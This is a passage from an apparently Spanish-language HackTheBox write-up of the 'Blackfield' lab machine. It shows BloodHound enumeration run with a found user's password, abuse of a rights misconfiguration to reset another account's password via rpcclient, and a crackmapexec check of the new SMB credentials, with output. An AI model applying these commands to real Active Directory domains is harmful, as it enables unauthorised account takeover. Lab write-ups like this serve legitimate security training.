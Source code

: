 En este punto estoy algo perdido... ya que solo tengo un usuario, asique me decido a lanzar bloodhound para ver que puedo hacer.

`python bloodhound.py -c ALL -u support -p '#00^BlackKnight' -d blackfield.local -dc dc01.blackfield.local -ns 10.10.10.192`

Se generan varios archivos de extensión .json que analizaré a continuación.


![](/assets/images/HTB/Blackfield-HackTheBox/Bloodhound1.webp)

![](/assets/images/HTB/Blackfield-HackTheBox/Bloodhound2.webp)

Como dice BloodHound puedo cambiar la contraseña del usuario audit2020 sin saber la actual, por lo tanto de esa forma ya tendríamos credenciales válidas.

A través de rpcclient es posible cambiar la contraseña.

![](/assets/images/HTB/Blackfield-HackTheBox/rpcclient2.webp)

> audit2020:elc4br4!!!

Ahora que ya tenemos credenciales voy a probarlas com cme para ver si son válidas en SMB.

```cme
❯ crackmapexec smb 10.10.10.192 -u audit2020 -p 'elc4br4!!!'
SMB         10.10.10.192    445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
SMB         10.10.10.192    445    DC01             [+] BLACKFIELD.local\audit2020:elc4br4!!! 
```
